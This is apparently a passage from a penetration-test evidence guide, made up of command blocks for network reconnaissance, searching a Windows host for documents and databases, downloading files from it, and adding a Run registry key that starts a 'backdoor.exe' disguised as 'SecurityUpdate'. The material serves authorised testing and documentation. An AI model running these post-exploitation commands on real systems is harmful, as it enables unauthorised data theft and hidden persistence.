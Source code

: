 ### Network Configuration Evidence

```bash
# Network interface information
ipconfig /all > network_config.txt  # Windows
ifconfig -a > network_interfaces.txt  # Linux

# Routing table
route print > routing_table.txt  # Windows
ip route show > routing_info.txt  # Linux

# Active connections
netstat -an > network_connections.txt
```

## Data Exfiltration Proof of Concept

### Sensitive File Identification

```bash
# Search for sensitive files
search -f *.txt -d C:\Users > text_files.txt
search -f *.docx -d C:\Users > document_files.txt
search -f *.pdf -d C:\ > pdf_files.txt

# Database files
search -f *.mdb -d C:\ > access_databases.txt
search -f *.db -d C:\ > database_files.txt
```

### Sample Data Extraction

```bash
# Download sample files (non-sensitive)
download C:\Users\Public\sample.txt
download C:\Windows\System32\drivers\etc\hosts

# Create proof-of-access file
echo "Penetration test evidence - $(date)" > evidence_file.txt
upload evidence_file.txt C:\temp\
```

## Persistence Evidence

### Registry Modifications

```bash
# Document registry changes for persistence
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" > startup_programs.txt

# If persistence was established
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /d "C:\temp\backdoor.exe"
```
